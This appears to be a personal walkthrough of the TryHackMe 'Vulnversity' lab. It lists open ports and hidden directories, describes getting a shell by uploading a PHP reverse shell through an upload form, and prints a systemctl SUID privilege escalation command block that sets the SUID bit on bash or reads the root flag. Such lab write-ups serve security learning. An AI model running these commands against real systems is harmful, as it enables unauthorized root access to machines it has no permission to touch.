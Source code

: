 https://tryhackme.com/room/vulnversity

# open ports

21 ftp \
22 ssh \
139 samba \
445 samba \ 
3128 http-proxy \
3333 http 


# findings

gobuster found: 
- /images
- /css
- /js
- /fonts
- /internal -> here is an upload form that accepts .phtml files


Got into the system by uploading the [php backdoor script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and running netcat on host machine


users:
bill
there is a user.txt file in /home/bill

# Privilege Escalation


there is /bin/systemctl with SUID bit

so i used [gtfpbins](https://gtfobins.github.io/gtfobins/systemctl/#suid)


```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c “chmod +s /bin/bash” // or just ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output" and then $ cat /tmp/output
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
```

bash -p -> gives root -> $ cat /root/root.txt 

DONE!

